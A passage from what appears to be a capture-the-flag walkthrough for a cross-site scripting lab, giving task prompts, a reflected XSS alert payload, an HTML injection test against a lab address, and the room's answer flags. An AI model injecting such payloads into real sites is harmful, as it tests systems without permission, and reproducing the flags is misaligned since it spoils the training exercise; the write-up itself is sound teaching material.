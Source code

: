 ![](<../../.gitbook/assets/Screenshot from 2020-08-26 22-03-56.png>)

{% hint style="success" %}
`ThereIsMoreToXSSThanYouThink`
{% endhint %}

#### **On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.**

```markup
<script>alert(window.location.hostname)</script>
```

![](<../../.gitbook/assets/Screenshot from 2020-08-26 22-10-18.png>)

{% hint style="success" %}
`ReflectiveXss4TheWin`
{% endhint %}

#### Now navigate to [http://10.10.244.21/](http://10.10.244.21/) in your browser and click on the "Stored XSS" tab on the navbar; make an account. Then add a comment and see if you can insert some of your own HTML.

```markup
<h1>test</h1>
```

![](<../../.gitbook/assets/Screenshot from 2020-08-26 22-13-06.png>)

{% hint style="success" %}
`HTML_T4gs`
{% endhint %}
